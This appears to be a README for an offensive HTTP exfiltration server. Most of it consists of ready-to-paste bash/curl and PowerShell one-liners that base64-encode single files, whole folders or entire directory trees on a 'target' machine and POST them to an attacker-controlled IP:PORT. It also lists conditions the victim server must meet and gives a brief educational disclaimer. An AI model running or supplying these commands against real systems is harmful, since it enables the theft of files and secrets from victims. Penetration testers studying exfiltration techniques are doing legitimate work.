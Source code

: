 # Summary
Hello guys, here I share an basic Python script to use as an Exfiltration Server.<br>
Remember that this is not an professional tool, it's simple for fast usage.<br>
This script may be really noisy, so be sure that you already collected everything silently<br>
If you have an idea of adjusts, let me know! :)<br>

> [!!!] Please be informed that the script provided is solely for informational and educational purposes only.

# Instructions
1 - Be sure that you are running the server using bash screen or tmux, to hold it opened<br>
2 - Run the command using Python3<br>
```bash
$ python3 exfil_server.py -p 1337
```
3 - Now on the target, there are some ways to exfiltrate, based on operation system:<br>

# Unix
- Single File
```bash
$ cat file.txt | base64 -w 0 | curl -XPOST 'http://IP:PORT/post' --data-binary @-
```

- Multiple Files on the same folder
```bash
$ ls -p | grep -v / >> files_list
$ for x in $(cat files_list); do cat $x | base64 -w 0 | curl -XPOST 'http://IP:PORT/post' --data-binary @-; done
```

- Multiple Files on all the subfolders from the current directory
```bash
$ find ./ -type f >> files_list
$ for x in $(cat files_list); do cat $x | base64 -w 0 | curl -XPOST 'http://IP:PORT/post' --data-binary @-; done
```

# Windows
- Single File
```powershell
powershell -c "$EncodedBase64 = [convert]::ToBase64String((Get-Content -path '.\sensitive_file.txt' -Encoding byte)); Invoke-WebRequest -Uri 'http://IP:PORT/post' -Method Post -Body $EncodedBase64"
```

- Multiple Files on the same folder
```powershell
powershell -c "$files = Get-ChildItem -File -Name; ForEach ($file in $files) {$EncodedBase64 = [convert]::ToBase64String((Get-Content -path $file -Encoding byte)); Invoke-WebRequest -Uri 'http://IP:PORT/post' -Method Post -Body $EncodedBase64}"
```

- Multiple Files on all the subfolders from the current directory
```powershell
powershell -c "$files = Get-ChildItem -File -Name -Recurse; ForEach ($file in $files) {$EncodedBase64 = [convert]::ToBase64String((Get-Content -path $file -Encoding byte)); Invoke-WebRequest -Uri 'http://IP:PORT/post' -Method Post -Body $EncodedBase64}"
```

# Requirements
Since we are talking of an HTTP Exfiltration, we should meet some requirements for the victim server:

- Free access to the internet
- No proxy (Some of them, may block)
- Curl installed
- Powershell acessible